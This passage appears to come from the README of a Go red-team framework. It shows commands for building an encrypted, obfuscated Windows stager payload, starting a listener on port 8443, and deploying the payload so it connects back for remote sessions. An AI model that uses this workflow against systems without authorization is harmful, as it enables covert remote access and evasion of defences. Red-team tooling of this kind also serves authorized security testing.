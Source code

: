 ### Option 3: Install to PATH

```bash
# Install globally
make install
# or
go install .

# Use from anywhere
redteam-framework --mode generate --payload stager --os windows
```

---

## Complete Workflow Example

### Step 1: Generate Payload

```bash
go run main.go --mode generate \
    --payload stager \
    --os windows \
    --arch amd64 \
    --output payload.exe \
    --encrypt \
    --obfuscate \
    --debug
```

**Output**: `payload.exe` will be created

### Step 2: Start Server

```bash
go run main.go --mode server \
    --listen 0.0.0.0:8443 \
    --debug
```

**Output**: Server starts listening on port 8443

### Step 3: Deploy Payload

Deploy `payload.exe` to target system. It will connect back to your server.

### Step 4: Interact with Session

Use the server interface to interact with connected sessions.

---

## Advanced Usage
